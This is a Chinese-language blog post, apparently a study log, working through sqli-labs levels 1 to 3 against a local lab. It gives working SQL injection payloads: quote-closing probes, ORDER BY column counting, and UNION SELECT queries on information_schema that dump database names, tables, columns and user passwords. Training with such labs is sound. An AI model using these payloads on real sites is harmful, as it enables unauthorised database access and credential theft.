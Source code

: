 ```yaml
---
title: sqil-labs摸坑历程
date: 2022-02-10 13:44:44
tags: 
cover: https://s2.loli.net/2022/02/08/mfnMdVakLjGXFYA.png
---
```

## 前言
又是被迫做Noob一天@@
==1==先摘抄一段学习大佬内容（仅以提醒自己知识点）
``mysql注入必懂的知识点
1）在mysql5.0版本以上中，存在一个自带数据库名information_schema自带 记录所有数据库名 表名 列名
2）数据库中符号“.”代表下一级，如user.user表示数据库user下的user表
3）information_schema.tables：记录所有表名信息的表
4）information_schema.columns：记录所有列名信息的表
5）table_schema：数据库名
6）table_name：表名
7）column_name：字段名
8）group_concat(table_name)：查询所有的表
9) 猜解多个数据：limit x，1 （变动x）
10）注释符：-- (后面有空格)(也就是–+) ，/**/ ,
payload结尾单引号闭合``
[原文链接：](https://blog.csdn.net/qq_53577336/article/details/118462999)
# less-1 ' 字符注入
**1：**根据提示，判断类型
id=1，正常
``id=1'``错误
``id=1'--+``页面回显正确
把1=1改成1=2，不报错也不显示任何信息，说明可以利用 ’ 字符注入
**可以判断了**：单引号字符注入
（==无泪==开始数据库没链接上？我说难道我的firefox和别人的不一样？^@^）
这里黄色字体是因为在Less-1脚本里加了个``echo $sql;``
![image.png](https://img-blog.csdnimg.cn/img_convert/bafc4969bbb0d13d01468c8fe2454a2b.png)
好的，接下来可以进行下一步
**2：**order by 表中列查询
![image.png](https://img-blog.csdnimg.cn/img_convert/e1ebd8247bb84c36690867e590400256.png)
==4==就查询不到了，应该有三列
**3：**查询一下数据库的显示位（如果显示位确定，只能通过这个显示位来显示查询数据？）
使用union select 1,2,3联合查询语句查看
![image.png](https://img-blog.csdnimg.cn/img_convert/55d91aec3e2f64570b8a2a5bf1f1a639.png)
说明页面有==2==个显示位
**4：** 利用sql查询语句爆破出数据库内的数据库西信息
?id=888' union select 1,(select group_concat(schema_name) from information_schema.schemata),3 --+
==数据库名查询语句==
![image.png](https://img-blog.csdnimg.cn/img_convert/c570336dc34d26f37455728f87da597e.png)
**5：**查询security内的所有表名
union select 1,(select group_concat(schema_name) from information_schema.schemata),(select group_concat(table_name) from information_schema.tables where table_schema='security')--+
![image.png](https://img-blog.csdnimg.cn/img_convert/866a1f0810c8502a5f7ab11d8f93d6ba.png)
**6：**爆破出列名
?id='union SELECT 1,2,(select group_concat(column_name) from information_schema.columns where table_name='users')%23
![image.png](https://img-blog.csdnimg.cn/img_convert/1dea6fe66312f77570f142bc450bf82c.png)
**7：** 爆破字段内容：``?id='union SELECT 1,2,(select group_concat(username,0x3a,password) from users)%23``
![image.png](https://img-blog.csdnimg.cn/img_convert/4e737b4c0e09e5fc6a79ef33340250d5.png)
0x3a就是一个:,用16进制表示了，为了区分一下账号和密码，增加可视化
# less-2  GET-Error based-intiger based（基于错误的GET整型注入）
**1:**整型数字可以直接查询，共有三个字段![image.png](https://img-blog.csdnimg.cn/img_convert/dcb1e73c93167a4bdc4e0f71aad79d76.png)
==Less1的爆破语句此处也都可以使用了==
**例子：**数据库名语句查询
``?id=-1 union select 1,(select group_concat(schema_name) from information_schema.schemata),3 --+``
**注意：**id要写成’0‘或负数

![image.png](https://img-blog.csdnimg.cn/img_convert/f9af4f9027523805de8b5a1f1e4c5346.png)

# Less-3  GET-Error based-Single quotes with twist-string （基于错误的GET单引号变形字符型注入）
输入id=1测试，页面回显正常
输入id=1’测试，根据报错信息分析id格式
![image.png](https://img-blog.csdnimg.cn/img_convert/92cd4abcb20db9180b3605ce2f677307.png)
可以得知id格式为id=（‘1’），要有闭合括号和单引号

**数据库查名：**
``?id=-1 union select 1,(select group_concat(schema_name) from information_schema.schemata),3 --+``

![image.png](https://img-blog.csdnimg.cn/img_convert/f518ce623835e6f8842b29a7a5e4541e.png)
由此，由联合语句可以进行爆破了
``http://127.0.0.1/sqli-labs-master/Less-3/?id=-1') union select 1,group_concat(username),group_concat(password) from users order by id -- a``
![image.png](https://img-blog.csdnimg.cn/img_convert/b7ecf3afba9b7649ae4a84abe564191b.png)
